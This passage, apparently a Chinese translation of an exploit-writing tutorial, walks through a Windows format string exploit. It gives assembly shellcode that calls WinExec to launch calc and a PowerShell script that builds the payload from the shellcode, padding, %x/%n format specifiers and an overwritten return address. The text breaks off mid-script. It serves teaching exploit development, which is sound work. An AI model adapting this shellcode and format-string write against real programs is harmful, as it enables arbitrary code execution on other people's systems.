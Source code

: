 由于我们有 80 个字符，我将首先尝试编写自己的 will 代码来弹出一个 calc。因为如果我再增加 A 字符的数量，计算偏移量会很麻烦。我将使用 WinExec API 来调用 calc。让我们找到它的地址。

![](img/9d9804f46dca192cac99ebc563c04860.png)

这是一个简单的 asm 代码，我编写它来调用 WinExec API。

```
format PE GUI 4.0
entry ShellCode
include 'win32ax.inc'
; Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
section '.code' executable readable writeable
ShellCode:
push ebp
mov ebp, esp
xor edi, edi
push edi
mov byte  [ebp-04h], 'c'
mov byte  [ebp-03h], 'a'
mov byte  [ebp-02h], 'l'
mov byte  [ebp-01h], 'c'
mov dword [esp+4], edi
mov byte  [ebp-08h], 01h
lea eax, [ebp-04h]
push eax
mov eax, 75263640h
call eax
```

这是我们最后的利用。

```
<#
# Author: [@OsandaMalith](http://twitter.com/OsandaMalith)
# Website: [https://osandamalith.com](https://osandamalith.com)
# Format String Exploitation
#>
$shellcode = [Byte[]] @(
0x55,                         # push ebp
0x89, 0xE5,                   # mov ebp, esp
0x31, 0xFF,                   # xor edi, edi
0x57,                         # push edi
0xC6, 0x45, 0xFC, 0x63,       # mov byte  [ebp-04h], 'c'
0xC6, 0x45, 0xFD, 0x61,       # mov byte  [ebp-03h], 'a'
0xC6, 0x45, 0xFE, 0x6C,       # mov byte  [ebp-02h], 'l'
0xC6, 0x45, 0xFF, 0x63,       # mov byte  [ebp-01h], 'c'
0x89, 0x7C, 0x24, 0x04,       # mov dword [esp+4], edi
0xC6, 0x45, 0xF8, 0x01,       # mov byte  [ebp-08h], 01h
0x8D, 0x45, 0xFC,             # lea eax,  [ebp-04h]
0x50,                         # push eax
0xB8, 0x40, 0x36, 0x26, 0x75, # mov eax, 75263640h
0xFF, 0xD0                    # call eax
)
$shellcode += [Byte[]] (0x41) * (80 - $shellcode.Length)
$fmt = ([system.Text.Encoding]::ASCII).GetBytes('%x' * 51)       +
([system.Text.Encoding]::ASCII).GetBytes('%.425430x' * 3) +
([system.Text.Encoding]::ASCII).GetBytes('%.424942x')     +
([system.Text.Encoding]::ASCII).GetBytes('%n')
$ret = [System.BitConverter]::GetBytes(0x0019f730)
$final = $shellcode + $fmt + $ret
$payload = ''
ForEach ($i in $final) {
$payload += ([system.Text.Encoding]::Default).GetChars($i)
```